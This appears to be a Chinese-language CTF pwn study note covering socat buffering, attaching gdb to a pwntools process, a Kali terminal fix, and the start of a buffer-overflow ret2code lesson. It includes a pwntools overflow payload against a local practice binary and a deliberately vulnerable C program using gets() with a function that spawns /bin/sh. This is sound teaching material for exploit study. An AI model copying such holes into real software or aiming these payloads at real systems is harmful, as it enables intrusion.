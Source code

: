 直到今天才彻底搞明白这三句话的作用。
因为我们搭建pwn题一般都是用socat进行端口转发，pwn题搭建详情
但是socat不是一次写一行而是一次写一个缓冲区
所以我们可以通输入参数type=2（行缓冲）的setvbuf来使得每次从流中读入一行数据或向流中写入一行数据。


#### 使用gdb配合脚本调试, gdbscript

attach 放在process后

方法1
```python
from pwn import *
r = process('./bof1')
raw_input() # 这里断下，执行脚本后看pid是多少比如6113
# 新建窗口终端
# $gdb
# gdb$ attach 6113
s = r.recvuntil('What\'s the secret ?')
print('recvuntil' + s)
r.sendline(flat('AAAAAAAA', p32(0xbeef), p32(0xdead)))
r.interactive()
```
方法2

[pwn_000_01_gdbattach](scripts/pwn_000_01_gdbattach.py)

##### kali不能执行gdb script的bug
https://juejin.im/post/5e68ff69518825494466bc57

方法1:

sudo update-alternatives --config x-terminal-emulator

可用 lxterm, uxterm, xterm

[方法2](https://www.cnblogs.com/wgf4242/p/13232979.html)

```
vi /home/kali/.local/lib/python3.8/site-packages/pwnlib/util/misc.py
# 在Launching a new terminal 这一行后面添加
argv = argv[:-1] + [x.strip('"') for x in argv[-1].split()]
```

### bof
#### bof-ret2code
* 透过Buffer Overflow 改赞 return address

* 将return address改到code中任意处

* 须关闭 PIE

```c
# include<stdio.h>
# include <stdlib.h>
void shell(){
    system("/bin/sh");
}

int main(){
    char buffer[8];
    gets(buffer);
    return 0;
}
```